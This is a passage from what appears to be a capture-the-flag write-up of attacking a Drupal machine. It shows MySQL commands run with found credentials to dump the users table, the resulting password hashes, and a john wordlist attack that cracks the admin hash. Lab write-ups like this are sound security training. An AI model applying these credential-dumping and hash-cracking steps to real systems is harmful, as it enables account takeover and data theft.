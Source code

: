 Did some `grep` searches for some other things that linpeas would usually find. No luck. And kept getting `grep: memory exhausted` errors. So I switched to the MySQL database. I crashed a couple of shells trying to log into MySQL, then realized I needed a proper PTY to run an interactive program. I then remembered that you can use the `-e` flag on the CLI to run SQL commands.

```none
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'show tables'
```

After figuring out the tables, dumped some user data.

```none
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'select * from users'
```

And the results...

```none
bash-4.2$ mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'select * from users'
<er --password='CQHEy@9M*m23gBVj' -D drupal -e 'select * from users'         
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone    language        picture init    data
0                                               NULL    0       0       0       0       NULL            0          NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu        filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu a:1:{s:7:"overlay";i:1;}
3       tom     $S$D07EoRQ/uoeXz/TE1IiaePPPKqlTI1JdOwFMExojlherH7YY.rCA tom@tom.com                     filtered_html       1627268260      0       0       0       Europe/London           0       tom@tom.com     NULL
```

And a more tidy version...

```none
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'select name,pass from users'

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
tom     $S$D07EoRQ/uoeXz/TE1IiaePPPKqlTI1JdOwFMExojlherH7YY.rCA
```

One key piece of information is a password hash for `brucetherealadmin`. The other user (`tom`) is the one I created when poking around on the website. I did some Google searches to find out how to crack Drupal passwords and found a very simple `john` example with no specified format as an argument.

```none
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt bruce_hash                 
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:01 DONE (2021-07-26 14:41) 0.9803g/s 227.4p/s 227.4c/s 227.4C/s courtney..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
